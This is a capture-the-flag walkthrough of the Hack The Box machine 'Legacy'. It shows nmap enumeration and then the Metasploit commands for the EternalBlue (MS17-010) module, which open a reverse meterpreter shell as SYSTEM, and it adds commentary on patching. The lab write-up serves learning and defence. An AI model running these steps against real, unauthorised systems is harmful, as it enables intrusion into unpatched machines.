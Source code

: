 # Legacy Walkthrough

I have been going back and re-doing retired boxes on Hack The Box, with a focus on writing up the process of compromising each box. For flavour, I'm also providing a bit of commentary around thinking through the attack from the attacker's perspective, as well as thinking about it from a system administrator/business owner perspective.

## The Mission

Hack The Box is a platform to learn and practice penetration testing techniques. Hack The Box makes virtual machines ("boxes") available for users to scan and exploit. It is ultimately a "capture the flag"-type of game, with the goal being to find and retrieve two "flags" or strings, one which can be accessed by a regular user on the box (the "user flag") and one that can only be accessed by the root user (the "root flag").

## The Target
![Legacy Info Card](/Legacy/images/1-Legacy-Info-Card.PNG)

Today, we're going to take on the Legacy box. It is an easy Windows box and would provide a great introduction to penetration testing for anyone interested in learning.

## The Setup

I am a believer in the the saying (often attributed to Abraham Lincoln) "if I had eight hours to chop down a tree, I’d spend six sharpening my axe". However, in this case, we're going to substitute "chop down a tree" for "hack a box" and "six hours sharpening my axe" for "countless hours tweaking and customizing my systems". I'm sure Honest Abe would be proud.

Throughout my time on the Hack The Box platform, I have found that sometimes boxes require tools you don't have, or versions of tools you can't find easily. For this reason, I prefer to keep a number of virtual machines around, including Kali, Parrot, and BlackArch. Although this works great, it would be nice if I wasn't maintaining ~25 virtual machines (although Vagrant is a huge help for this).

If you spend any time on forums discussing penetration testing, you'll see that I'm not the only one torn between different operating systems. Questions like "What is the best distribution for hacking?" or "Should I use Kali or Parrot" are posted on almost a daily basis. To this, I say: why choose?

![Bedrock Strata](/Legacy/images/2-Bedrock-Strata.PNG)

To spice up our attack on Legacy, I'm going to try a different system that isn't frequently discussed in the penetration testing community. I'm running a customized version of Bedrock Linux in a virtual machine on a Windows 10 host, with Kali Linux and BlackArch in their own strata.

Why is this awesome?

This means that we can use tools like `nmap` from Blackarch, Kali, or Ubuntu (or any other distribution)! Admittedly, using this setup on the Legacy box will be like swatting a fly with a truck, but if you enjoy having a really sharp axe, you should definitely check out [Bedrock Linux](https://bedrocklinux.org/).

Let's put it to work.

## The Hack
### Enumerating Legacy

We want to get some information about Legacy. We know that it is running Windows and we know that it has an IP address of 10.10.10.4. Beyond this, it would be helpful to know what ports are open on the box and what services are running. I normally do this in two stages. First, we can run a quick scan with nmap to get a sense of what we will be dealing with. To do this, we will run `sudo nmap -sC -sV 10.10.10.4`.

Second (in the background), we will also run a more fulsome scan with nmap with `sudo nmap -p- -sV -sC -O -A -T4 -v --script vuln 10.10.10.4`. This scan will go through and use the Nmap Scripting Engine to check for vulnerabilities on the box. However, this takes some time, so we'll let it run in the background for now.

Our quick scan will give us the following output:

![Quick Nmap Scan](/Legacy/images/3-Quick-Nmap.PNG)

The quick scan will let us get started while we wait for the longer scan to finish. We can see that we have a couple of ports open, including 139 and 445. Interestingly, it looks like Legacy is likely running SMB on Windows XP. This should immediately be a red flag since Windows XP is an out of date operating system and is no longer supported.

Our longer scan will eventually come back and report a number of findings:

![Long Nmap Scan](/Legacy/images/4-Nmap-Long-Scan.PNG)

### Thinking About the Scan

Our fulsome nmap scan revealed some interesting results. Notably, nmap appears to be reporting that the box is vulnerable to two remote code execution vulnerabilities, CVE-2017-0143 and CVE-2008-4250. CVE-2017-0143 is a relatively well-known vulnerability in Microsoft SMBv1, which is subject to the (in)famous [EternalBlue exploit](https://www.wikiwand.com/en/EternalBlue).

I highly recommend reading up on the history of EternalBlue (and the other "Eternal" exploits) and how it has been used since being developed. In short, the NSA identified a vulnerability in Microsoft SMB servers and developed the EternalBlue exploit. The NSA kept it hidden for a number of years until the NSA became aware of the fact that the exploit had been leaked. The NSA warned Microsoft in 2017 about the existence of the SMB vulnerability, and Microsoft released patches for it. As is commonly the case, many people and organizations did not implement the patches, leaving them vulnerable to this exploit.

The EternalBlue exploit was then distributed by the hacker group known as The Shadow Brokers. This exploit was then incorporated into and used by the [WannaCry ransomware](https://www.wikiwand.com/en/WannaCry_ransomware_attack), which locked down computers all across the world.

Putting on a legal/business hat, this is where the rubber hits the road on your IT service agreements and your internal policies. Patches need to be regularly implemented. Sometimes, this means weighing the security risks of leaving a vulnerability unpatched against the risk of implementing a patch that has not been carefully tested in a test environment. Well-defined change control procedures and security policies can assist with this process. Internal policies regarding asset management and tracking can help speed up patching. Regular vulnerability scanning can also help ward against these threats.

Even though the world had a hard lesson in patching with the rise of EternalBlue and WannaCry, failures to patch are still a common issue, as evidenced by the January 14, 2020 end of life for Windows 7. Many organizations waited until the last moment to migrate off of Windows 7, with some failing to migrate off of Windows 7 altogether.

Let's demonstrate why failing to patch is a problem.

### Getting the Root Flag

Those who have been carefully reading this post might be slightly surprised at this section title. Normally, you get a foothold in the target system, enumerate the system further to find a path to escalate your privileges, and then--after compromising the administrator account--you can get the root flag. That won't be necessary here since we're going to fully compromise the system in one step.

Both CVE-2017-0143 and CVE-2008-4250 would be viable paths forward to compromising the box. Since we have been discussing EternalBlue, let's demonstrate how it works. By simply googling "MS17-010 exploit", we can see from the [first result that there is a metasploit module for this vulnerability](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue).

Start Metasploit with `msfconsole`:

![Metasploit](/Legacy/images/5-Metasploit.PNG)

We can search through the modules using the command `search ms17-010`, `search eternalblue`, or `search CVE-2017-0143`. Each of these searches return the same results.

![Metasploit Search](/Legacy/images/6-Metasploit-Search.PNG)

We have a few different exploits come up. Module #4 on our list is the exploit that came up in our google search. Let's load it up with the command `use exploit/windows/smb/ms17_010_psexec`.

We can then check the available options with the command `options`. We would then set the necessary settings (which in this case is `RHOSTS` and `LHOST`). `RHOSTS` are the target(s), which in this case is 10.10.10.4. `LHOST` is your local host, or your attacking machine. In this case, we will set it to our own IP address on the Hack The Box network (alternatively, you can set this value to `tun0`). So we would run:
```
set RHOSTS 10.10.10.4
set LHOST [Your Hack The Box IP Address or "tun0"]
```
Re-running the `options` command, you can check to make sure you put everything in correctly:

![Metasploit Options](/Legacy/images/7-Metasploit-Options.PNG)

We can run the check command now to see if the exploit is likely to work:

![Metasploit Check](/Legacy/images/8-Metasploit-Check.PNG)

Since it appears that this exploit should be effective, we can initiate the exploit by typing `run`:

![Metasploit Exploit](/Legacy/images/9-Metasploit-Exploit.PNG)

And it worked! We have a meterpreter shell that is communicating back to the box. Meterpreter has its own set of commands, including getuid, which allows us to see which user we are running as. Running this command, we can see that we are `NT AUTHORITY\SYSTEM`, which is the LocalSystem account and is the most powerful account on a local Windows instance.

![Getuid](/Legacy/images/10-Getuid.PNG)

We can drop into a shell on the box using the command shell. After looking around for a short time, we can locate both the root and the user flags. Since we have administrator privileges on the box, we can read both without any issue.

![Flags](/Legacy/images/11-Flags.PNG)

And we're done!

## Wrapping Up

The ease at which we could exploit Legacy shows why malware such as WannaCry was so pervasive. This is why patching is so important!
